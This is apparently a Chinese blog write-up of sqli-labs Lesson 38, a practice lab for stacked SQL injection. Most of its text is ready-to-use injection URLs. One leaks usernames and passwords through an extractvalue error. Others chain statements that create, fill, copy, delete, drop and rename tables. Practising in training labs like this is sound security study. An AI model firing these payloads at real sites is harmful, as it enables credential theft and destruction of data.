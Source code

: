 ```yaml
---
title: sqli-labs lession-38 GET-堆叠注入
date: 2018-10-16 10:33:39
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-38 GET-堆叠注入

---

## 登录界面

![001](/img/sql/Lesson-38/001.png)

## 分析

![002](/img/sql/Lesson-38/002.png)

![003](/img/sql/Lesson-38/003.png)

![004](/img/sql/Lesson-38/004.png)

![005](/img/sql/Lesson-38/005.png)

![006](/img/sql/Lesson-38/006.png)

总的来说就是可以用;隔开多个sql语句来执行,但是这里有多个查询结果的话只能返回第一个查询的结果集。还可以建表添加用户的操作，但是没有回显就是了，这些操作是建立在了解注入的是数据库的数据结构的基础上的。

## 过程

跟Lesson-1唯一的不同就是可执行多条sql语句了。检验注入漏洞。一般用于增删改。

`http://192.168.75.132/sql/Less-38/?id=2' and extractvalue(null,concat(0x7e,(select concat(username,password) from users limit 0,1),0x7e))%23'`

![007](/img/sql/Lesson-38/007.png)

### 增

#### 创建表

`http://192.168.75.132/sql/Less-38/?id=2';create table test like users;%23`

![008](/img/sql/Lesson-38/008.png)

#### 插入数据

`http://192.168.75.133/sql/Less-38/?id=-1'union select 1,2,3;insert into test(id,username,password)values(100,'zhao','zhao');%23`

![009](/img/sql/Lesson-38/009.png)

![010](/img/sql/Lesson-38/010.png)

还可以将结构相同的表数据插入。

`http://192.168.75.133/sql/Less-38/?id=-1'union select 1,2,3;insert into test select * from users%23`

![011](/img/sql/Lesson-38/011.png)

![012](/img/sql/Lesson-38/012.png)

### 删

#### 删除数据

`http://192.168.75.133/sql/Less-38/?id=-1'union select 1,2,3;delete from test where id = 100%23`

![013](/img/sql/Lesson-38/013.png)

![014](/img/sql/Lesson-38/014.png)

#### 删除表

`http://192.168.75.133/sql/Less-38/?id=-1'union select 1,2,3;drop table user_test;%23`

### 改

#### 修改表名

`http://192.168.75.133/sql/Less-38/?id=-1'union select 1,2,3;alter table test rename to user_test;%23`

![015](/img/sql/Lesson-38/015.png)

![016](/img/sql/Lesson-38/016.png)










